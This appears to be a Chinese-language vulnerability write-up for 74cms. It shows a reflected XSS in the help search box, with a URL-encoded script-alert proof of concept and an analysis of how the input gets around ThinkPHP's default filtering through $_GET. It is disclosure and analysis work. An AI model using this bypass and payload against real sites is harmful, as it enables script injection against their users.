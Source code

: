 74cms前台搜索框存在反射型xss漏洞

地址：

```
http://localhost/index.php?m=&c=help&a=index
```

![image-20250325155738957](image/image-20250325155738957.png)

poc：

```
%3Cscript%3Ealert(%2Fss%2F)%3C%2Fscript%3E
```

![image-20250325155932295](image/image-20250325155932295.png)



代码分析：

定位c=help --》helpcontroller.class.php

方法为help_list

```
public function help_list(){
        $_GET['key'] = I('request.key','','trim');
        if (!M('Help')->autoCheckToken($_POST)){
            $this->error("验证错误！");
        }
        $this->display();
    }
```

这里仅仅是用到了trim完全不足以过滤，跟进I方法，这是ThinkPHP原生的方法类似于input

```
 if(''==$name) { // 获取全部变量
        $data       =   $input;
        $filters = isset($filter) ? $filter.','.C('DEFAULT_FILTER') : C('DEFAULT_FILTER');
        //$filters    =   isset($filter)?$filter:C('DEFAULT_FILTER');
        if($filters) {
            if(is_string($filters)){
                $filters    =   explode(',',$filters);
            }
```

存在过滤，跟进DEFAULT_FILTER，发现

![image-20250325165856215](image/image-20250325165856215.png)

全局默认是存在过滤方法

输入

```
<script>alert(1)</script>
```

被转义为

![image-20250325221604733](image/image-20250325221604733.png)

```
输入 %3Cscript%3Ealert(%2Fss%2F)%3C%2Fscript%3E
```

直接则跳过了thinkphp的检测，直接通过$_GET['key']传入了

验证：

```
%3Cscript%3E alert(%2Fss%2F) %3C%2Fscript%3E
```

查看js

![image-20250325224605088](image/image-20250325224605088.png)

空格都没有被过滤

安全的流程--》用户输入--》(I函数过滤)thinkPHP默认检测--》安全

不安全的流程--》编码--》服务器解码--》$_GET直接访问
